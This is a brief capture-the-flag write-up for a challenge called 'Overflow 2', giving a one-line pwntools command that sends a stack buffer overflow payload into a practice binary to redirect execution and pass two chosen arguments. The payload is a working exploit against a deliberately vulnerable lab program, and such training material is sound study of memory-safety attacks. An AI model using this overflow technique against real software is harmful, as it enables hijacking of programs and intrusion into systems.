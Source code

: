 # Overflow 2 

## Summary

Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc on the shell server. Source.

## Solution

```sh
cd /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc; python2 -c "from pwn import *; print '\x90'*188 + p32(0x80485e6) + 'A'*4 + p32(0xDEADBEEF) + p32(0xC0DED00D)" | ./vuln;echo
```
